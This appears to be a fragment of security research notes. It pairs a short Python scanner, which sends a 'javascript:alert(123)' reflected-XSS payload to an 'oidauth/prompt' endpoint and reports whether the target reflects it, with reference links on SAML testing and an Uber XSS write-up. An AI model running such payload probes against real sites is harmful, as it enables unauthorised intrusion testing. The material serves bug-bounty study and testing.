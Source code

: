 ```
                url2 = url.strip().split("oidauth")[0] + "oidauth/prompt?base=javascript%3Aalert(123)%3B%2F%2FFady&return_to=%2F%3Fopenid_c%3D1520758585.42StPDwQ%3D%3D&splash_disabled=1"
                request = requests.get(url2, allow_redirects=True,verify=False)
                doesit = Fore.RED + "no"
                if ("Fady" in request.content):
                    doesit = Fore.GREEN + "yes"
                print(Fore.WHITE + url2)
                print(Fore.WHITE + "Len : " + str(len(request.content)) + "   Vulnerable : " + doesit)
```
```
## References

- [[https://epi052.gitlab.io/notes-to-self/blog/2019-03-07-how-to-test-saml-a-methodology/|https://epi052.gitlab.io/notes-to-self/blog/2019-03-07-how-to-test-saml-a-methodology/]]
- [[https://epi052.gitlab.io/notes-to-self/blog/2019-03-13-how-to-test-saml-a-methodology-part-two/|https://epi052.gitlab.io/notes-to-self/blog/2019-03-13-how-to-test-saml-a-methodology-part-two/]]
- [[https://epi052.gitlab.io/notes-to-self/blog/2019-03-16-how-to-test-saml-a-methodology-part-three/|https://epi052.gitlab.io/notes-to-self/blog/2019-03-16-how-to-test-saml-a-methodology-part-three/]]
- [[https://blog.fadyothman.com/how-i-discovered-xss-that-affects-over-20-uber-subdomains/|https://blog.fadyothman.com/how-i-discovered-xss-that-affects-over-20-uber-subdomains/]]



